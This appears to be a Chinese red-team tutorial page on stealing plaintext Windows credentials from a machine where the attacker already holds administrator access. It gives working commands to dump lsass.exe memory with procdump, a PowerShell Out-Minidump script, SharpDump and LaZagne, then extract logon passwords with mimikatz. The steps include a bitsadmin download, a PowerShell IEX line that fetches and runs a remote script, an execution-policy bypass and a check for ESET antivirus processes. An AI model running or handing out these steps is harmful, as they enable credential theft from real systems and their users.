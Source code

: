 # 免杀抓取明文

## 1、前提条件

必须已经事先拿到目标机器的管理权限,且看到有管理员的登录会话

```text
query user
```

![](../../.gitbook/assets/image%20%28435%29.png)

## 2、Prodump

直接指定 lsass.exe 进程名进行抓取即可,之后只需把生成的 lsass.dmp 文件拖回本地

```text
cd c:\Windows\Temp

bitsadmin /rawreturn /transfer getfile https://raw.githubusercontent.com/klionsec/CommonTools/master/procdump.exe c:\windows\temp\dump.exe

dump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](../../.gitbook/assets/image%20%28440%29.png)

接着,再在本地用 mimikatz.exe 去加载读取即可\[版本保持一致\]

```text
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28441%29.png)

## 3、powershell

### 1、远程执行： 

只适用于 2008r2 之后的系统

```text
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/klionsec/CommonTools/master/Out-Minidump.ps1'); Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp"

tasklist | findstr /c:"egui.exe" /c:"ekrn.exe"

dir c:\windows\Temp | findstr "lsass
```

![](../../.gitbook/assets/image%20%28439%29.png)

同样,之后只需把 lsass\_504.dmp 文件拖到本地机器再用 mimikatz.exe 加载读取即可

```text
mimikatz.exe "sekurlsa::minidump lsass_596.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28434%29.png)

### 2、本地执行

```text
powershell –exec bypass –Command "& {Import-Module 'C:\Tools\Out-Minidump.ps1'; Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp}"
```

![](../../.gitbook/assets/image%20%28438%29.png)

PS: powershell 导 lsass.exe 进程数据差不多文件要比用 prodump 导的小 10M 左右

```text
mimikatz.exe "sekurlsa::minidump lsass_596.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28436%29.png)

## 4、sharpDump

项目地址：[https://github.com/GhostPack/SharpDump](https://github.com/GhostPack/SharpDump) 

将.sln用MSBuild编译成.exe     

```text
%SystemRoot%\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe E:\SharpDump-master\SharpDump.sln /t:Rebuild /p:Configuration=Release
```

![](../../.gitbook/assets/image%20%28431%29.png)

直接运行：

![](../../.gitbook/assets/image%20%28430%29.png)

需要线把 bin 重命名为 zip 后缀,然后正常解压出里面的 文件,再给 mimikatz 去读取即可

```text
mimikatz.exe "sekurlsa::minidump debug596" "sekurlsa::logonPasswords full" "exit"
```

![](../../.gitbook/assets/image%20%28432%29.png)

## 5、LaZagne\(python\)

项目地址：[https://github.com/AlessandroZ/LaZagne/releases](https://github.com/AlessandroZ/LaZagne/releases)

下载直接运行`lazgne.exe all`

![](../../.gitbook/assets/image%20%28442%29.png)

![](../../.gitbook/assets/image%20%28433%29.png)



